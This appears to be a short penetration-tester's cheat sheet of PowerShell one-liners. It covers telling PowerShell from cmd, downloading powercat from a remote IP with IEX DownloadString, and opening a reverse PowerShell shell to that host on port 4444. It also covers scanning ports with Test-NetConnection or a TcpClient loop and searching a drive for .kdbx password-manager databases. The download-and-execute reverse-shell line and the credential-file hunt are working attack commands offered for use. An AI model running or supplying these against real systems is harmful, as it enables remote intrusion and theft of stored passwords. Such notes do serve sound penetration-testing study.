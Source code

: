 
determine if command line is PowerShell or cmd:

```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

download files from remote server with PowerShell:

```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
```

`Test-NetConnection -Port <port> <target_IP>` - Power shell command that can be used to run a port scan from a windows machine. This command will check if the target responds too ICMP and whether a specified TCP port on the target is open. The result of `TcpTestSucceeded` indicated whether the port is open or not.

`1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).connect("TARGET_IP", $_)) "TCP port $_ is open"} 2>$null` - This is a power shell one-liner that will scan the first 1024 ports of our target specified.

`Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue` find all .kdbx files on the system (password databases used by password managers)

``